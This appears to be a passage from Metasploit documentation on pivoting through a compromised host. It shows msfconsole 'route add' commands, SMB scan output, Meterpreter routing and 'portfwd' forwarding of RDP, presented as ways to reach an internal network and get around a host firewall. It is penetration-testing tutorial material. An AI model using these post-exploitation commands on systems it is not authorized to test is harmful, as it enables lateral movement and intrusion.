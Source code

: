 ```
...
```

The example above shows that we have a Meterpreter connection to 192.168.1.201. Let's call this box A, and it  is connected to the 192.100.0.0/24 VPN network. As an attacker, we aren't connected to this network directly, but we can explore that network through box A.

At the msf prompt, do:

```
msf exploit(handler) > route add 192.100.0.0 255.255.255.0 1
[*] Route added
```

The  ```1``` at the end of the route indicates the session ID, the payload that is used as a gateway to talk to other machines.

So right now, we have a connection established to the VPN, and we should be able to connect to another machine from that network:

```
msf auxiliary(smb_version) > run

[*] 192.100.0.101:445     - 192.100.0.101:445 is running Windows 2003 SP2 (build:3790) (name:SINN3R-QIXN9TA2) (domain:WORKGROUP)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_version) >
```

Another neat trick using route is that you can also bypass the compromised host's firewall this way. For example, if the host has HTTP open, but SMB is blocked by the firewall, you can try to compromise it via HTTP first. You'll need to use the route command to talk to SMB and then try to exploit SMB.

***Routing through Meterpreter***

The route command in Meterpreter allows you change the routing table that is on the target machine. The way it needs to be configured is similar to the route command in msfconsole.

***Routing through the portfwd command***

The portfwd command allows you to talk to a remote service like it's local. For example, if you are able to compromise a host via SMB, but are not able to connect to the remote desktop service, then you can do:

```
meterpreter > portfwd add -l 3389 -p 3389 -r [Target Host]
```

And that should allow you to connect to remote desktop this way on the attacker's box:

```
rdesktop 127.0.0.1
```

**Meterpreter Paranoid Mode**

The paranoid mode forces the handler to be strict about which Meterpreter should be connecting to it, hence the name "paranoid mode".
